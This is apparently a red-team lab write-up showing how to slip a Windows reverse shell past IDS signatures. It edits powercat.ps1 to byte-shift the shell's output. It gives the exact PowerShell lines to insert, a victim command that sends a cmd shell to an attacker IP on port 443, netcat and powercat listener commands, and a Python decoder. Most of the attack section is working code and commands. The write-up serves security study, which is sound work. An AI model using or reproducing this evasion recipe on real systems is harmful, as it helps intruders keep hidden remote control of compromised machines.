 # Bypassing IDS Signatures with Simple Reverse Shells

Most Intrusion Detection Systems \(IDS\) have signatures that can catch simple reverse shells going across the network. 

The thing that will get you flagged usually is the classic cmd prompt banner:

```text
listening on [any] 443 ...
connect to [192.168.2.79] from ws01 [192.168.2.149] 56079
Microsoft Windows [Version 10.0.17763.475]
(c) 2018 Microsoft Corporation. All rights reserved.
```

This can usually be bypassed relatively easily with some simple traffic obfuscation. This quick lab demonstrates just that.

{% hint style="danger" %}
**Warning**  
This technique is not meant to be used in real life red team operations!
{% endhint %}

## Environment and Setup

* A compromised Windows system capable of running powershell scripts
* Netcat will be replaced with a Powercat - NC implementation in powershell
* Attacker's linux machine

## Encoding Responses

Since we want to obfuscate the outgoing traffic from the victim system to the attacking system, we need to obfuscate the responses generated by the reverse shell.

Let's modify powercat to achieve this. Int this lab, I will use a simple obfuscation technique - every ascii character will be shifted to the right by 1, so `a` will become `b`, `b->c`, `c->d` and so on, but base64 or any other encoding mechanisms could work.

In powercat.ps1, let's find the function `ReadData_CMD` and add a new line \(576 from the below graphic\):

```csharp
$Data = $Data | % {[byte]$_+1}
```

![](../../.gitbook/assets/annotation-2019-05-18-121935.png)

With the modified powercat, let's try establishing a reverse shell and catch it on the other end and see what happens:

```csharp
# victim
powercat -c 192.168.2.79 443 -e cmd

#attacker 
powercat -l -p 443 -v
```

Below shows the incoming reverse shell, but it's of course not readable since we shifted all the characters by one. Although this is enough to bypass IDS signatures relying on the cmd prompt banner crossing the network, the shell on itself is not very useful since we cannot read the results:

![](../../.gitbook/assets/annotation-2019-05-18-123445.png)

## Decoding Responses

We need to decode the responses by using the code we used earlier and make sure that we are now subtracting 1 rather than adding, so that `d` becomes `c`, `c->b`, `b->a` and so on:

```csharp
$Data = $Data | % {[byte]$_-1}
```

In powercat.ps1, find the function `WriteData_Console` and add the code just below the parameter declaration:

![](../../.gitbook/assets/annotation-2019-05-18-124925.png)

If we try establishing the reverse shell now, we can see it gets decoded nicely on the attacking system running powercat listener on Windows:

![](../../.gitbook/assets/annotation-2019-05-18-124837.png)

If we inspect the traffic, we confirm that the traffic is encoded:

![](../../.gitbook/assets/annotation-2019-05-18-130428.png)

## Decoding Responses in Linux

If we are listening for a shell in netcat on a Linux box with no powershell \(my kali was giving me a hard time trying to install powershell\), we need to hack together a filthy python loop that will do the decoding for us first:

{% code-tabs %}
{% code-tabs-item title="decode.py@kali" %}
```python
#!/usr/bin/python3
import os, time

global decoded
while 1:
    decoded = ""
    encodedFile = open("myfile", "rb+")
    i = 0
    last = ""
    encodedBytes = encodedFile.read()

    for byte in encodedBytes:
        if byte > 0 and byte <= 127:
            byte -= 1
        else:
            byte = 10

        if byte != last:
            decoded += chr(byte)
            last = byte
        i += 1

    if len(decoded) > 1:
        print(decoded)
    os.system("echo > myfile")
    time.sleep(1)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Let's launch the netcat listener on a linux box and pipe the output to `tee` so it can be put to a file `myfile`

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
nc -lvvp 443 | tee myfile
```
{% endcode-tabs-item %}
{% endcode-tabs %}

In another terminal, we need to launch the `decoder.py` which will read the `myfile` every second and will decode its content and wipe it:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
./decoder.py
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-18-132903.png)

We can now send the reverse shell back from the windows machine and see how it works:

* Right - a compromised Windows system that will send a reverse shell to the attacker using powercat
* Top left - the reverse shell comes in, responses are encoded. This is where we can issue commands
* Bottom left - reverse shell responses are decoded

![](../../.gitbook/assets/revshell.gif)

